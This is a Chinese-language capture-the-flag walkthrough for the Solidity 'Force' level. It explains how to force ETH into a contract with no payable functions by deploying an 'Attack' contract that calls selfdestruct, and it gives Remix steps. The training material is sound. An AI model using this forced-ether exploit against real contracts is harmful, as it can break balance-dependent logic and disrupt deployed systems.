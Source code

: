 ### 第八关 Force
### 难度3/5
## 这一关的通关条件是使合约的余额大于零。
## 代码如下：
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
这个合约里面什么都没有，全是注释(有一只猫)。通关条件是使合约的余额大于0。一个合约要接受ETH，有这几种方法：
1. 合约里有一个payable修饰的函数。
2. 合约里有一个receive函数。
3. 有payable修饰的fallback函数。
4. 通过selfdestruct函数。
这道题很显然使用方法四来解。selfdestruct的作用是将合约从区块链上移除，清除其代码和存储数据，释放存储空间，将合约中剩余的 ETH 转到指定的接收地址。所以我们只需要新建一个攻击合约，调用selfdestruct，发送给Force合约。值得注意的是：“selfdestruct” 已被弃用。请注意，从坎昆硬分叉开始，底层操作码不再删除与账户关联的代码和数据，而只会将其中的 Ether 转移给受益人，除非在创建合约的同一笔交易中执行（参见 EIP-6780）。即使考虑到新的行为，也强烈建议不要在新部署的合约中使用。EVM 未来的变更可能会进一步削弱该操作码的功能。
## 解题步骤：
1. 打开remix线上编辑器,新建攻击合约：
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    uint public balance = 0;

    function destruct(address payable _to) external payable {
        selfdestruct(_to);
    }

    function acceptETH() external payable {
        balance += msg.value;
    }
}
```
2. 部署合约，调用acceptETH函数，发送一些ETH给合约(在Remix的“Deploy & Run”面板，填写value)。
3. 调用destruct合约，参数送入levelInstance地址。
4. 提交过关。
